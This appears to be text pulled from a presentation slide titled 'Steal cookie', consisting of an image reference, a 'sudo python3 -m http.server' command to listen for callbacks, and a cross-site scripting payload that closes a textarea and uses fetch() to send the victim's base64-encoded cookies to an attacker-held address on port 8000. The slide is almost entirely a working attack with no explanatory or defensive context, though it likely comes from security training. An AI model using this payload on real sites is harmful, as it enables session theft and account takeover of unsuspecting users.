

Steal cookie
Sudo python3 –m http.server
</textarea><script>fetch('http://10.18.1.1:8000?cookie=' + btoa(document.cookie) );</script>